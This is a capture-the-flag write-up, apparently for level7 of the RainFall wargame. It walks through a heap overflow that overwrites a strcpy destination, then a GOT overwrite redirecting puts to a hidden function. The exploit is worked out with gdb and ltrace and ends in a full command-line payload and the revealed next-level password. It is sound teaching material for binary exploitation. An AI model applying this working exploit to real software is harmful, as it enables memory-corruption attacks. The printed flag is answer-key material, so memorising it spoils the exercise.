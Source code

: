 # level7

### First analysis

In this level we get a very heavy main and a little m() function not called anywhere as we can see here on this decompiled version of level7:

```c
void m(void *param_1,int param_2,char *param_3,int param_4,int param_5) {
  time_t tVar1;
  
  tVar1 = time((time_t *)0x0);
  printf("%s - %d\n",c,tVar1);
  return;
}

undefined4 main(undefined4 param_1,int param_2) {
  undefined4 *puVar1;
  void *pvVar2;
  undefined4 *puVar3;
  FILE *__stream;
  
  puVar1 = (undefined4 *)malloc(8);
  *puVar1 = 1;
  pvVar2 = malloc(8);
  puVar1[1] = pvVar2;
  puVar3 = (undefined4 *)malloc(8);
  *puVar3 = 2;
  pvVar2 = malloc(8);
  puVar3[1] = pvVar2;
  strcpy((char *)puVar1[1],*(char **)(param_2 + 4));
  strcpy((char *)puVar3[1],*(char **)(param_2 + 8));
  __stream = fopen("/home/user/level8/.pass","r");
  fgets(c,0x44,__stream);
  puts("~~");
  return 0;
}
```

To understand more what happens we can check source.c again, let's break down this code step by step:
- First it does some allocations on 2 different variables that we will call addr1 and addr2, addr1[0] = 1 and addr2[0] = 2, then on addr1[1] and addr2[1] we get a new allocation of 8 characters on both.
- It calls strcpy() two times, one to copy into addr1[1] the first argument (av[1]) and same thing with addr2[1] and av[2].
- level8 password file is opened in readonly and read by the program with fgets then stored into c, a global variable.
- Then we simply print two tildes in stdout.

Even if m() is never called we cant analyze it quicky too:
- First it calls the function time() that will gives us a timestamp (long number).
- Then it prints c and the timestamp.

So as we can see one part of the program reads level8's password, and another part that prints it, tho the part that prints it is not accessible. However if it's read, maybe there is some way to find into the stack or the heap this value somewhere, we just have to find how.

### Finding the solution

We first started to look at the core dump. Everytime you get a Segmentation Fault, there is a core dump. This gives a lot of informations on the memory state when the crash occured and we could have a peak on the flag. However this option quicly vanished away as we realized that there is (as far as we know) no way to access this core dump without certains rights that we dont have.

After some more researches we discovers with ltrace this:

```sh
level7@RainFall:~$ ltrace ./level7 "AAAAAAAAAAAAAAAAAAAABBBB" lala
__libc_start_main(0x8048521, 3, 0xbffff7c4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                              = 0x0804a008
malloc(8)                                                                                              = 0x0804a018
malloc(8)                                                                                              = 0x0804a028
malloc(8)                                                                                              = 0x0804a038
strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAABBBB")                                                         = 0x0804a018
strcpy(0x42424242, "lala" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Maybe hard to understand at first glance but what we can see is that if we hit a buffer longer that 20 characters, we seems to be able to overwrite the address of the second strcpy. It now points to 0x42424242 which is the equivalent of BBBB in hex. Interestingly enough this strcpy writes av[2] in this address which makes the segfault. However this means that we can write anything we want, anywhere we want, we just need the address of where we want to write and what we want to write in it.

So we thought about doing like level5 and using the GOT. Since m() uses printf to print the password, if we replace the address of puts() in the got by the address of m(), it would probably print the password. So we first need to get the address in the GOT where puts() is stored:

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048521 <+0>:	push   %ebp
   0x08048522 <+1>:	mov    %esp,%ebp
   [...]
   0x080485f0 <+207>:	movl   $0x8048703,(%esp)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    $0x0,%eax
[...]
```

We see the address of the PLT functions here, let's go deeper:

```
(gdb) disas 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   0x08048406 <+6>:	push   $0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
```

The address with the * next to the first jmp instruction is the address in the GOT where the address of puts is stored, we can verify this:

```
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x08048406
```

It is indeed our puts address. Just as a reminded, we don't care about the right address, only the left one. The right one (0x08048406) is the address of puts that will be replaced, the left address (0x8049928) is where puts is stored. This is the one that we need.

So we have half of what we need, we have where we want to write, now we need to know what we want to write, and for this we just need the address of m():

```
(gdb) x m
0x80484f4 <m>:	0x83e58955
```

We now have both elements, we just need to build our payload that will contains:
- av[1] is 20 random chars + the GOT address
- av[2] is m() address

So we get:

```sh
level7@RainFall:~$ ./level7 $(python -c "print 'A' * 20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1721760513
```